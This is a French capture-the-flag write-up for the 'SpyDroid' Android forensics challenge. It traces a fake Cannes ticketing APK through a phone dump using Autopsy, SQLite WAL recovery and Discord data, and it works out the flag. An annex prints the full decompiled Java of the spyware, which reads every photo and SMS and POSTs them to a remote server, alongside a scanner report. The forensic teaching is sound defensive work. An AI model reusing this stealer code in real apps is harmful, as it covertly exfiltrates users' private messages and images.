

# SpyDroid



## Prérequis

[SpyDroidChallenge_VF.tar.gz](https://mega.nz/file/NZxCVD7Q#rv_oFdcS252R3uEqD8Cn4MXSxUClZNAhmZepXz3bSLk)

(Optionnel, recommandé) Vérifier les sommes de contrôle.
```bash
sha256sum -c SHA256SUMS.txt
```

<h2>Solution</h2>

<details>
<summary></summary>

Nous sommes face à un dump d'un système Android qui a été compromis. Le challenge consiste à analyser les données pour retrouver le flag, nous n'avons pas plus d'informations sur son format. Ce chall est en plusieurs étapes :

Trouver le format du flag
* On commence par explorer le dossier `storage` pour trouver des indices. On trouve directement une belle piste pour la compromission : un APK nommé `CannesBilletterie.apk` dans le dossier `/storage/emulated/0/Download`.
* On y trouve également un APK de F-droid, un store alternatif pour Android.
  * *Je ne peux d'ailleurs que vous le recommander, en tant que défenseur de l'open source et étant attaché à l'OPSEC. Un coucou également aux utilisateurs de custom ROM* 👋🏻
* L'APK F-droid semble officiel, on le vérifie avec ces sources :
  [APK Mirror](https://www.apkmirror.com/apk/f-droid-limited/f-droid/f-droid-1-21-1-release/f-droid-1-21-1-android-apk-download/), [VirusTotal](https://www.virustotal.com/gui/file/b64651849eceb57459049e7017e043008fce8f146aad1d34d98f0027d87e4eef)
* Un passage sur VirusTotal nous indique en revanche que l'app "Billetterie Cannes" serait potentiellement malveillante :
  [VirusTotal](https://www.virustotal.com/gui/file/609bb9433fba2ea4d7c025808476384f6c4254e28c2ab020e1b183aa864a6ab8)
  
  ⚠️☠️ **Note : on peut se le permettre dans le cadre d'un CTF, en revanche, il ne faut surtout pas faire ça dans un cadre professionnel ! Cela revient à prévenir directement l'attaquant que vous avez découvert son malware.**
* On commence par analyser l'APK avec [Qu1cksc0pe](https://github.com/CYB3RMX/Qu1cksc0pe) (voir l'annexe pour le résultat). Cela nous donne quelques informations intéressantes : le nom du paquet est `fr.shutlock.billetterievipcannes`, l'activité principale est `fr.shutlock.billetterievipcannes.MainActivity`, et l'application demande des permissions risquées comme `android.permission.READ_SMS` et `android.permission.RECEIVE_SMS`.
* On explore les messages envoyés/reçus (DB sous `/data/data/com.google.android.apps.messaging`), rien ne ressort.
* On décompile l'APK avec [jadx-gui](https://github.com/skylot/jadx) en suivant [ce tutoriel](https://korben.info/decompiler-application-android-apk-recompiler.html).
* On en déduit le fonctionnement de l'application malveillante : elle récupère les images et les SMS du téléphone et les envoie à un serveur distant via HTTP POST. Le code de l'application est disponible dans la section "Annexe - Code de l'application".
* On importe alors l'ensemble des fichiers du dump dans Autopsy pour retracer les actions de l'attaquant.
* Après l'analyse initiale, on cherche dans tous les strings `CannesBilletterie.apk` pour en trouver l'origine. On tombe en fouillant sur un lien cdn discord : `https://cdn.discordapp.com/attachments/1361704389881893069/1361707528240496670/CannesBilletterie.apk?ex=67ffbc76&is=67fe6af6&hm=a4570fb7e5b8ed2c801de0eed5c11659ba5d89f3479f8aba52bb26f505f71c7e` sous `/data/data/com.android.providers.downloads/databases/downloads.db`
* On cherche ensuite la chaîne `discord`. On tombe sur `/data/data/com.google.android.gm/databases/bigTopDataDB.-286538739-wal` qui semble contenir des fragments de mails. On y lit notamment :
  ```
  Participez à notre concours et déchiffrez le code pour gagner ! à
  msg-f:1829479103042476969
  ludo.tech.coder@proton.me
  ludo.tech.coder
  ^all"
  ^fnas"
  ^ndpp"
  ^sq_ig_i_personal9
  Bonjour Laura, Nous avons le plaisir de vous annoncer le lancement d'un nouveau concours qui mettra vos talents d'analyse et vos compétences techniques à l'épreuve ! 
  Objectif : Identifier
  ```
  Cela ressemble fortement à un indice pour retrouver le flag ! Il va nous falloir récupérer le mail entier.
* Après quelques recherches, il s'avère qu'un fichier wal est un [fichier de journalisation](https://sqlite.org/wal.html). SQLite restaure automatiquement ce journal dans la base de données principale lors du chargement de la base de données (en tout cas, c'est le cas avec SQLiteBrowser).
  
  ⚠️ **Attention : il faut auparavant faire une copie de la base de données principale, afin de ne pas altérer les fichiers originaux. C'est essentiel en analyse forensique !**
* On ouvre le fichier `bigTopDataDB.-286538739` avec SQLiteBrowser et on trouve une table `item_messages`. On comprend que les messages sont compressés !
* On crée un script Python pour extraire les messages de la DB et les décompresser (`solve/readmails.py`). Dans le 4e message, on décode enfin :
  ```
  Bonjour Laura,

  Nous avons le plaisir de vous annoncer le lancement dun nouveau concours qui mettra vos talents danalyse et vos comptences techniques lpreuve !
  Objectif :

  Identifier et reconstruire un code cadeau cach partir d'une situation simule de compromission. Le premier soumettre le bon format remportera une rcompense exclusive !
  Format du code :

  Le code cadeau est reconstituer sous le format suivant :

  SHUTLOCK{nom_appli/pseudo_de_l'attaquant/jour_infection/IP_Destination}

  Exemple :
  SHUTLOCK{com.example.webmail/rootkit42/12-04-2025/192.168.1.15}
  ```
* Cherchons maintenant les différentes parties du flag.

Trouver le nom de l'application
* Déjà fait : `fr.shutlock.billetterievipcannes`

Trouver la date de compromission
* Autopsy nous indique comme date de modification le 15/04/2025 sur `CannesBilletterie.apk`, mais cette métadonnée a pu être altérée lors et depuis la compression des fichiers.
* On trouve un autre fichier qui contient la chaîne `CannesBilletterie.apk` : `/data/data/com.google.android.providers.media.module/databases/external.db`.
* Dans la table `files`, on a bien une entrée pour `CannesBilletterie.apk` avec un champ `date_modified` qui contient le timestamp `1744726794`.
* On le convertit en date avec [un convertisseur en ligne](https://www.epochconverter.com/?q=1744726794), ce qui nous donne bien le `15/04/2025`.

Trouver l'IP de destination
* Trouvée en décompilant l'APK : l'exfiltration des données se fait vers `http://10.0.2.2:17878/`

Trouver le pseudo de l'attaquant
* C'est plus délicat. On commence par chercher la chaîne `télécharger`, mais sans succès.
* On se rappelle alors qu'il y a plusieurs e-mails décodés : on y trouve notamment le pseudo discord du propriétaire du téléphone : `laura_cinema`.
* On cherche donc ce pseudo dans Autopsy, mais sans succès.
* On cherche alors à coup de grep à la racine du dump :
  ```bash
  grep -r "laura_cinema" . | sort -u
  ```
* On tombe sur `./data/com.discord/files/kv-storage/@account.1361702933141651488/a`. On l'explore :
  ```bash
  strings ./data/com.discord/files/kv-storage/@account.1361702933141651488/a | less
  ```
* On tombe sur une conversation intéressante... Et on comprend que le propriétaire du téléphone s'est fait dupper par un attaquant sous le pseudo `ludotech_`, qui l'a motivé à télécharger l'APK malveillant.

Flag : `SHUTLOCK{fr.shutlock.billetterievipcannes/ludotech_/15-04-2025/10.0.2.2}`

<details>
<summary>Annexe - Analyse Qu1cksc0pe</summary>

```
jack@debian12:~/Qu1cksc0pe$ python3 qu1cksc0pe.py --file /home/jack/Documents/Forensics/SpyDroidChallenge/storage/emulated/0/Download/CannesBilletterie.apk --analyze

                   <------------------------------------------>
                   <  This tool is very dangerous. Be careful >
           __      <   while using it!!                       >
         _|  |_    <------------------------------------------>
       _|      |_   /
      |  _    _  | /
      | |_|  |_| |
   _  |  _    _  |  _
  |_|_|_| |__| |_|_|_|
    |_|_        _|_|   <- Mr. Virus
      |_|      |_| 


[*] Analyzing: /home/jack/Documents/Forensics/SpyDroidChallenge/storage/emulated/0/Download/CannesBilletterie.apk
[*] Target OS: Android

[*] General Informations about /home/jack/Documents/Forensics/SpyDroidChallenge/storage/emulated/0/Download/CannesBilletterie.apk
>>>> App Name: Billetterie VIP Cannes
>>>> Package Name: fr.shutlock.billetterievipcannes

[*] Sending query to Google Play Store about target application.
>>>> Google Play Store: Not Found

>>>> SDK Version: 34
>>>> Main Activity: fr.shutlock.billetterievipcannes.MainActivity
┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━┓
┃                                Permissions                                ┃ State ┃
┡━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━┩
│                        android.permission.READ_SMS                        │ Risky │
│ fr.shutlock.billetterievipcannes.DYNAMIC_RECEIVER_NOT_EXPORTED_PERMISSION │ Info  │
│                        android.permission.INTERNET                        │ Info  │
│                      android.permission.RECEIVE_SMS                       │ Risky │
└───────────────────────────────────────────────────────────────────────────┴───────┘
┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃                  Activities                   ┃
┡━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┩
│ fr.shutlock.billetterievipcannes.MainActivity │
└───────────────────────────────────────────────┘
┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃                    Receivers                     ┃
┡━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┩
│ androidx.profileinstaller.ProfileInstallReceiver │
└──────────────────────────────────────────────────┘
┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃                Providers                ┃
┡━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┩
│ androidx.startup.InitializationProvider │
└─────────────────────────────────────────┘

[*] Performing YARA rule matching...
There is no rules matched for /home/jack/Documents/Forensics/SpyDroidChallenge/storage/emulated/0/Download/CannesBilletterie.apk

[*] Performing library analysis...
[*] Decompiling target APK file...

There is no library files found for analysis!


[*] Performing malware family detection. Please wait!!
[!] Couldn't detect malware family.

[*] Performing source code analysis...

[*] Preparing source files...
Processing files... ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00

[*] Analyzing source codes. Please wait...
Analyzing... ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:01:23
>>>> File Name: fr/shutlock/billetterievipcannes/MainActivity.java
>>>> Categories: ['SMS Bot', 'File Operations', 'Persistence/Managing', 'Network/Internet']
┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃                 Patterns                 ┃
┡━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┩
│       android.permission.READ_SMS        │
│                 READ_SMS                 │
│             FileInputStream              │
│ android.permission.READ_EXTERNAL_STORAGE │
│              doInBackground              │
│               java.net.URL               │
│        java.net.HttpURLConnection        │
│            url.openConnection            │
│             setRequestMethod             │
│               Content-Type               │
│              openConnection              │
│            HttpURLConnection             │
│              URLConnection               │
└──────────────────────────────────────────┘


[*] Looking for possible IP address patterns. Please wait...
Processing sources... ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
Processing resources... ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
[!] There is no possible IP address pattern found!

[*] Looking for URL values. Please wait...
Processing sources... ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
Processing resources... ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃            Extracted URL Values            ┃
┡━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┩
│ http://schemas.android.com/apk/res/android │
│           http://10.0.2.2:17878/           │
│  http://schemas.android.com/apk/res-auto   │
│      http://www.apache.org/licenses/       │
│      http://schemas.android.com/aapt       │
└────────────────────────────────────────────┘

[*] Do you want to check target app's security? This process will take a while.[Y/n]: y

[*] Checking basic security options...
┏━━━━━━━━━━━━┳━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━┓
┃ Debuggable ┃ AllowBackup ┃ ClearTextTraffic ┃ NetworkSecurityConfig ┃
┡━━━━━━━━━━━━╇━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━┩
│  Insecure  │  Insecure   │ No entry found.  │       Not found       │
└────────────┴─────────────┴──────────────────┴───────────────────────┘

[*] Checking application permission flags...
┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━┓
┃                                Permission                                 ┃   Flag    ┃
┡━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━┩
│ fr.shutlock.billetterievipcannes.DYNAMIC_RECEIVER_NOT_EXPORTED_PERMISSION │ signature │
└───────────────────────────────────────────────────────────────────────────┴───────────┘

[*] Searching for exported activities...
┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━┓
┃                   Activity                    ┃ Exported ┃
┡━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━┩
│ fr.shutlock.billetterievipcannes.MainActivity │   true   │
└───────────────────────────────────────────────┴──────────┘

[*] Searching for exported providers...
┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━┓
┃                Provider                 ┃ Exported ┃
┡━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━┩
│ androidx.startup.InitializationProvider │  false   │
└─────────────────────────────────────────┴──────────┘
```

</details>

<details>
<summary>Annexe - Code de l'application</summary>

```java
package fr.shutlock.billetterievipcannes;

import android.database.Cursor;
import android.net.Uri;
import android.os.AsyncTask;
import android.os.Bundle;
import android.provider.MediaStore;
import android.provider.Telephony;
import android.util.Log;
import android.view.View;
import androidx.activity.EdgeToEdge;
import androidx.appcompat.app.AppCompatActivity;
import androidx.core.app.ActivityCompat;
import androidx.core.content.ContextCompat;
import androidx.core.graphics.Insets;
import androidx.core.view.OnApplyWindowInsetsListener;
import androidx.core.view.ViewCompat;
import androidx.core.view.WindowInsetsCompat;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;
import java.io.OutputStream;
import java.net.HttpURLConnection;
import java.net.URL;

/* loaded from: classes3.dex */
public class MainActivity extends AppCompatActivity {
    private static final int REQUEST_SMS_PERMISSION = 2;

    @Override // androidx.fragment.app.FragmentActivity, androidx.activity.ComponentActivity, android.app.Activity
    public void onRequestPermissionsResult(int requestCode, String[] permissions, int[] grantResults) {
        super.onRequestPermissionsResult(requestCode, permissions, grantResults);
        if (requestCode == 1 && grantResults.length > 0 && grantResults[0] == 0) {
            getAllPicturesAndSend();
        }
    }

    private void getAllPicturesAndSend() {
        Uri uri = MediaStore.Images.Media.EXTERNAL_CONTENT_URI;
        String[] projection = {"_data"};
        Cursor cursor = getContentResolver().query(uri, projection, null, null, "datetaken DESC");
        if (cursor != null) {
            while (cursor.moveToNext()) {
                String path = cursor.getString(cursor.getColumnIndexOrThrow("_data"));
                sendFileToServer(path);
            }
            cursor.close();
        }
    }

    private void getAllSMS() {
        Uri uri = Telephony.Sms.CONTENT_URI;
        String[] projection = {"address", "body", "date"};
        Cursor cursor = getContentResolver().query(uri, projection, null, null, "date DESC");
        if (cursor != null) {
            while (cursor.moveToNext()) {
                String address = cursor.getString(cursor.getColumnIndexOrThrow("address"));
                String body = cursor.getString(cursor.getColumnIndexOrThrow("body"));
                long date = cursor.getLong(cursor.getColumnIndexOrThrow("date"));
                sendSMSToServer("Address: " + address + "\nBody: " + body + "\nDate: " + date);
            }
            cursor.close();
        }
    }

    private void sendSMSToServer(String imagePath) {
        new UploadSMSTask().execute(imagePath);
    }

    private static class UploadSMSTask extends AsyncTask<String, Void, Void> {
        private UploadSMSTask() {
        }

        /* JADX INFO: Access modifiers changed from: protected */
        @Override // android.os.AsyncTask
        public Void doInBackground(String... params) throws IOException {
            String imagePath = params[0];
            try {
                URL url = new URL("http://10.0.2.2:17878/");
                HttpURLConnection connection = (HttpURLConnection) url.openConnection();
                connection.setDoOutput(true);
                connection.setRequestMethod("POST");
                connection.setRequestProperty("Content-Type", "application/octet-stream");
                OutputStream os = connection.getOutputStream();
                byte[] buffer = imagePath.getBytes();
                os.write(buffer);
                os.flush();
                os.close();
                Log.w("TAG", "SMS sent to server: " + imagePath);
                return null;
            } catch (IOException e) {
                e.printStackTrace();
                return null;
            }
        }
    }

    private void sendFileToServer(String imagePath) {
        new UploadFileTask().execute(imagePath);
    }

    private static class UploadFileTask extends AsyncTask<String, Void, Void> {
        private UploadFileTask() {
        }

        /* JADX INFO: Access modifiers changed from: protected */
        @Override // android.os.AsyncTask
        public Void doInBackground(String... params) throws IOException {
            String imagePath = params[0];
            try {
                File file = new File(imagePath);
                FileInputStream fis = new FileInputStream(file);
                URL url = new URL("http://10.0.2.2:17878/");
                HttpURLConnection connection = (HttpURLConnection) url.openConnection();
                connection.setDoOutput(true);
                connection.setRequestMethod("POST");
                connection.setRequestProperty("Content-Type", "application/octet-stream");
                OutputStream os = connection.getOutputStream();
                byte[] buffer = new byte[1024];
                while (true) {
                    int bytesRead = fis.read(buffer);
                    if (bytesRead != -1) {
                        os.write(buffer, 0, bytesRead);
                    } else {
                        os.flush();
                        os.close();
                        fis.close();
                        Log.w("TAG", "SMS sent to server: " + imagePath);
                        return null;
                    }
                }
            } catch (IOException e) {
                e.printStackTrace();
                return null;
            }
        }
    }

    @Override // androidx.fragment.app.FragmentActivity, androidx.activity.ComponentActivity, androidx.core.app.ComponentActivity, android.app.Activity
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        EdgeToEdge.enable(this);
        setContentView(R.layout.activity_main);
        ViewCompat.setOnApplyWindowInsetsListener(findViewById(R.id.main), new OnApplyWindowInsetsListener() { // from class: fr.shutlock.billetterievipcannes.MainActivity$$ExternalSyntheticLambda0
            @Override // androidx.core.view.OnApplyWindowInsetsListener
            public final WindowInsetsCompat onApplyWindowInsets(View view, WindowInsetsCompat windowInsetsCompat) {
                return MainActivity.lambda$onCreate$0(view, windowInsetsCompat);
            }
        });
        findViewById(R.id.button).setOnClickListener(new View.OnClickListener() { // from class: fr.shutlock.billetterievipcannes.MainActivity$$ExternalSyntheticLambda1
            @Override // android.view.View.OnClickListener
            public final void onClick(View view) {
                this.f$0.m159lambda$onCreate$1$frshutlockbilletterievipcannesMainActivity(view);
            }
        });
        if (ContextCompat.checkSelfPermission(this, "android.permission.READ_EXTERNAL_STORAGE") != 0) {
            ActivityCompat.requestPermissions(this, new String[]{"android.permission.READ_EXTERNAL_STORAGE"}, 1);
            getAllPicturesAndSend();
        } else {
            getAllPicturesAndSend();
        }
        if (ContextCompat.checkSelfPermission(this, "android.permission.READ_SMS") != 0) {
            ActivityCompat.requestPermissions(this, new String[]{"android.permission.READ_SMS"}, 2);
            getAllSMS();
        } else {
            getAllSMS();
        }
    }

    static /* synthetic */ WindowInsetsCompat lambda$onCreate$0(View v, WindowInsetsCompat insets) {
        Insets systemBars = insets.getInsets(WindowInsetsCompat.Type.systemBars());
        v.setPadding(systemBars.left, systemBars.top, systemBars.right, systemBars.bottom);
        return insets;
    }

    /* renamed from: lambda$onCreate$1$fr-shutlock-billetterievipcannes-MainActivity, reason: not valid java name */
    /* synthetic */ void m159lambda$onCreate$1$frshutlockbilletterievipcannesMainActivity(View v) {
        setContentView(R.layout.activity_recipe);
    }
}
```

</details>

</details>